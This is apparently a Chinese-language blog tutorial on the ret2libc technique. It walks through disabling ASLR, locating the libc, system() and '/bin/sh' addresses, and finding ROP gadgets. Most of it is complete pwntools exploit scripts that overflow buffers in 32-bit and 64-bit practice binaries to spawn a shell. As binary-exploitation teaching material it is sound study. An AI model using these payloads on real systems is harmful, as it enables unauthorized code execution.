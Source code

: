 # ret2libc


ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，
这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh` ；如果你将
此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system` 。

<!--more-->

{{< link href="/pwn_assets/ret2libc.zip" content="ret2libc.zip" title="Download ret2libc.zip" download="ret2libc.zip" card=true >}}

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出
`system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF
文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000` 。

{{<admonition type="info">}}

`libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是
意味着你有不同的版本的 `libc` 。

{{</admonition>}}

### 1x02 获取 system() 的地址

为了调用 `system()` ，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量
和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610` 。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用
`strings` 指令。注：当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串
的十六进制表示形式，因为这就是 C 语言所规定的方式。

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76          # Padding 到 EIP
payload += p32(system_addr)  # system() 的地址
payload += p32(0x0)          # 避免异常
payload += p32(shell_addr)   # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

注：你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(shell_addr)   # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2      # 填充 rsi 和 r15
payload += p64(system_addr)  # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python {title="exp.py"}
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                             # 获取程序正在使用的 libc
libc.address = 0xf7c00000                   # 设置 libc 地址

system_addr = libc.sym['system']            # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))  # 获取 /bin/sh 的地址

payload = b'A' * 76                         # Padding 到 EIP
payload += p32(system_addr)                 # system() 的地址
payload += p32(0x0)                         # 避免异常
payload += p32(shell_addr)                  # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

{{<admonition type="tip">}}

如果题目提供了 libc ，也可以这样用：

{{< typeit code=python >}}
libc = ELF('libc.so.6')

print(libc.sym['system'])
{{< /typeit >}}

{{</admonition>}}

{{<admonition type="info">}}

pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。

{{</admonition>}}



---

> 作者: CuB3y0nd  
> URL: https://www.cubeyond.net/ret2libc/  

